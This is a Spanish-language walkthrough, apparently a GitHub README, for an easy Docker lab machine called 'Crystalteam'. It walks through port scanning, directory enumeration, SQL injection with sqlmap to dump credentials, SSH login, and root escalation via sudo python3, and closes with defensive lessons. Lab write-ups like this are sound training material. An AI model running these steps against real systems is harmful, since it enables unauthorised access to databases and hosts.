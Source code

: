 # 🖥️ **Máquina: Crystalteam**  
🔹 **Dificultad:** Fácil  
📌 **Descripción:**  
Crystalteam es una máquina vulnerable basada en Docker, diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Su enfoque principal es la identificación y explotación de vulnerabilidades en consultas MySQL para obtener acceso no autorizado a la base de datos y extraer información sensible.  

📢 **Agradecimientos:** Gracias a [DockerLabs](https://dockerlabs.es) por proporcionar *scripts* y bases que facilitaron la creación de esta máquina.  

---

## 🎯 **Objetivo**  
- Identificar y explotar fallos de seguridad en la página web **Certificación** mediante **inyección SQL**.  
- Comprender el impacto real de estas vulnerabilidades y cómo prevenirlas.  

---

## 🚀 **Despliegue de la Máquina**  

### 1️⃣ **Descargar el Archivo**  
Descarga el archivo desde el siguiente enlace:  

🔗 [Crystalteam Docker Machine](https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing)  

### 2️⃣ **Ejecutar el Despliegue Automático**  
Ejecuta el siguiente comando para desplegar la máquina en Docker:  

```bash
bash auto_deploy.sh crystalteam.tar
```
Una vez iniciada, comprueba la conexión con:  

```bash
ping -c4 172.17.0.2
```

![Máquina Backend](/Img/Docker.jpeg)

### 3️⃣ **Reconocimiento Inicial con Nmap**  
Realizamos un escaneo de puertos con:  

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Extraemos los puertos abiertos con:  

```bash
extracPorts allPorts.txt
```

Luego, realizamos un análisis detallado de los servicios en ejecución:  

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

📌 **Resultado:** Identificamos el puerto **22 (SSH)** y el **80 (HTTP)**, lo que nos sugiere que hay un sitio web corriendo.  

![Máquina Backend](/Img/Puertos.jpeg)

---

## 🔍 **Enumeración del Sitio Web**  

Editamos el archivo de *hosts* para facilitar el acceso:  

```bash
nano /etc/hosts
```

Recopilamos información con **WhatWeb** para detectar tecnologías usadas:  

```bash
whatweb 172.17.0.2
```

![Máquina Backend](/Img/whatweb.jpeg)

Al ingresar a la página web, encontramos un **formulario de inicio de sesión y registro**.  

![Máquina Backend](/Img/index.jpeg)  

![Máquina Backend](/Img/ad.jpeg)  

Para descubrir directorios ocultos, utilizamos **Gobuster**:  

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
```

Para buscar subdominios:  

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Resultado:** No se encontraron subdominios o directorios relevantes.  

![Máquina Backend](/Img/domi.jpeg)  

![Máquina Backend](/Img/php.jpeg)  

---

## 🔥 **Explotación - Inyección SQL**  

Probamos inyección SQL en el campo de usuario con:  

```sql
admin'
```

📌 **Resultado:** Se genera un **error de base de datos**, confirmando la vulnerabilidad.  

![Máquina Backend](/Img/in.jpeg)  

![Máquina Backend](/Img/error.jpeg)  

Usamos **Burp Suite** para interceptar la solicitud y guardarla en un archivo `.req`.  

Ejecutamos **SQLMap** para extraer datos sensibles:  

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```

![Máquina Backend](/Img/sql.jpeg)  

📌 **Resultado:** Encontramos una base de datos llamada **inicio**, con nombres de usuario y contraseñas.  

![Máquina Backend](/Img/Tabla.jpeg)  

Usamos las credenciales para intentar acceder por **SSH**:  

```bash
ssh alejandro@172.17.0.2 -p 22
```

📌 **Acceso concedido como usuario "alejandro".**  

![Máquina Backend](/Img/ssh.jpeg)  

---

## 🚀 **Escalada de Privilegios**  

Listamos permisos con:  

```bash
sudo -l | grep python
```

📌 **Resultado:** Python puede ejecutar comandos como **root**.  

Ejecutamos el siguiente comando para leer el archivo `redflag.txt`:  

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

![Máquina Backend](/Img/root.jpeg)  

📌 **Resultado:** ¡Hemos obtenido la *redflag*! 🎉  

Para verificar acceso como *root*, ejecutamos:  

```bash
su -
```

![Máquina Backend](/Img/ter.jpeg)  

📌 **Resultado:** **Acceso total a la máquina.**  

---

## 🏆 **Conclusión**  

🔹 **Vulnerabilidades explotadas:**  
✅ Inyección SQL (SQLi) para obtener credenciales.  
✅ Uso de credenciales expuestas para acceder por SSH.  
✅ Escalada de privilegios mediante Python.  

🔹 **Lecciones aprendidas:**  
🚨 **No** concatenar consultas SQL sin sanitizar entradas.  
🔐 Implementar **hashing de contraseñas** en la base de datos.  
📛 Restringir permisos innecesarios a usuarios del sistema.  

💡 **¿Te gustaría probar esta máquina?** Descárgala y cuéntame tu experiencia. 🚀  

